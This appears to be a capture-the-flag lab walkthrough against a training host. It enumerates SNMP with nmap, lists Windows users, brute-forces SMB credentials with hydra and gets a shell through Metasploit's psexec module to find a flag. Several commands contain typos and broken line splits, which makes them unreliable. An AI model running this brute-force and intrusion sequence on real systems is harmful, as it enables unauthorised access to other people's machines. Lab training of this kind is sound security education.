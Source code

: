 **Objective**: Exploit the target to gain the shell and find the flag!
The best tools for this lab are:
- Nmap
- Metasploit Framework
- snmpwalk
- Hydra

```shell
cat /etc/hosts
ping -c 1 demo.ine.local
nmap <taget_IP>
```

We can notice, multiple ports are open on the target machine. Now, let's check if the SNMP port is open or not. We must keep in mind that nmap does not check for UDP ports by default. As we already know, SNMP runs on the UDP port 161. 

```shell
nmap -sU -p 161 demo.ine.local
# As we can see, the UDP port 161 is open. This information is crucial for our following tasks.

ls /usr/share/nmap/scripts/ | grep snmp
ls -al /usr/share/nmap/scripts/ | grep snmp # -al > All files | Long listing format

nmap -sU -p 161 --script snmp-* demo.ine.local > snmp_output
# The above command would run all the nmap SNMP scripts on the target machine and store its output to the snmp_output file.

nmap -sU -p 161 --script snmp-brute <target_IP>
# As we can see, we found three community names: public, private, and secret

nmap --script-help snmp-win32-users
# Attempts to enumerate Windows user accounts through SNMP

nmap -sU -p 161 --script snmp-win32-users demo.ine.local
# snmp-win32-users: Administrator, DefaultAccount, Guest, WDAGUtilityAccount, admin
```

Now, let's run a brute-force attack using these windows users on SMB service. The port 445 is open, and we can run a brute-force attack using the hydra tool.

```shell
hydra 
-l 
administrator  
-P 
/usr/share /metasplout-framewords/data/wordlists/unix_passwords.txt 
<target_IP> 
smb 
# We can now authenticate via psexec or we can use the metasploit module.

msfconsole -q
search smb psexec
use xploit/windows/smb/psexec
set RHOSTS demo.ine.local
set SMBUSER administrator
set SMBPASS elizabeth
exploit

# shell
shell
dir C:\ /s /b | findstr /i flag

# meterpreter
cd C:\
cat FLAG1.txt
```